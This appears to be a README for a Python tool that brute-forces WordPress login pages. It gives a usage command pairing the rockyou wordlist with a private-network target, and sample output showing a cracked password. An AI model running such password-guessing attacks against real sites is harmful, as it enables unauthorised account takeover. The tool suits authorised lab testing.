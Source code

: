 # python-bruteforc 🔥🚀
python Bruteforce login script for wordpress 👻

* -p = file path to password list file 
* -u = valid username 
* -t = target address 

**target should should be look like this http://site.com/wp-login.php**

# example usage : 

$ python3 bf.py -u unclestinky -p /usr/share/wordlist/rockyou.txt -t http://192.168.254.105/weblog/wp-login.php 

      ____      ____ _________  ____________  ____________                         
      \   \    /   / |_____   | |______     \ |_   ______|  
       \   \/\/   /  |     ___|   |    |   _/  |    ___|         
        \        /   |    |       |    |    \  |    |     
         \__/\__/    |____|       |_________/  |____|    

                ***********************
                * By : intrglctcMilk  *  
                *     -- @tmpts       * 
                *********************** 
     
     [+] Attacking [+]
     
    [+] **** PASSWORD FOUND ***** [+] =====> [wedgie57] for user unclestinky
    [-] Time lapsed : 0.792555570602417 seconds  [-] 
    [-] Number of attempts : 15 [-]



